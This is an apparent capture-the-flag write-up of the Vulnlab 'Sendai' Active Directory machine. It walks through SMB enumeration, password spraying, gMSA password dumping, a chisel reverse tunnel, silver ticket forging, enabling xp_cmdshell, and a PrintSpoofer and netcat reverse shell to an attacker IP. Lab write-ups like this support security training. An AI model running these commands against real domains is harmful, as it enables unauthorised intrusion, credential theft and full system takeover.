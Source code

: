 ```yaml
---
title: Vulnlab Standlone Machine - Sendai
date: 2024-03-30
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standalone - Sendai

![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```bash
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```bash
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share, I found a txt file mentioning that a penetration test discovered numerous weak passwords, recommending changes as soon as possible. Also, in the transfers folder, I found the UserProfiles for a few users within the domain:
```bash
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
  ```
I saved the usernames to a file called 'users.txt' and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user 'lisa.williams':
```bash
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:<REDACTED> STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```bash
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```bash
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'
We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```bash
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```bash
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```bash
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H <REDACTED>
```

# Crafting silver tickets
Now that we have initial access on the DC I enumerated the system a bit. I found that in the C:\config folder there is a file called '.sqlconfig' which contains the password for the sqlsvc user. Since this user is the service account for the MSSQL service we can forge a silver ticket for a privileged user to escalate privileges. To do this I first created a proxy using chisel which allowes me to interact with the MSSQL service which is running locally. 
On the target machine:
```bash
cmd /c C:\temp\chisel.exe client <ATTACKER>:8001 R:1080:socks
```
On the attacker machine:
```bash
chisel server -p 8001 --reverse
```
Next I created a silver ticket using the ticketer.py tool from impacket for the Administrator and imported the kerberos ticket:
```bash
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash <REDACTED> -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
Using this ticket we connect over the proxy to the MSSQL service as Administrator:
```bash
proxychains -q mssqlclient.py dc.sendai.vl -k
```
Since we have administrative rights we can enable xp_cmdshell so we can execute command on the system:
```bash
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

# Escalating to SYSTEM
Since we are the sqlsvc$ account we usually have SeImpersonate privileges which allows us to elevate to SYSTEM. We can confirm this by using:
```bash
whoami /privileged
```
This confirmed that we indeed have SeImpersonate privileges. Using Printspoofer and netcat I was able to get a reverse shell:
```bash
cmd /c C:\temp\PrintSpoofer.exe -c "c:\Temp\nc.exe 10.8.0.49 1337 -e cmd"
```
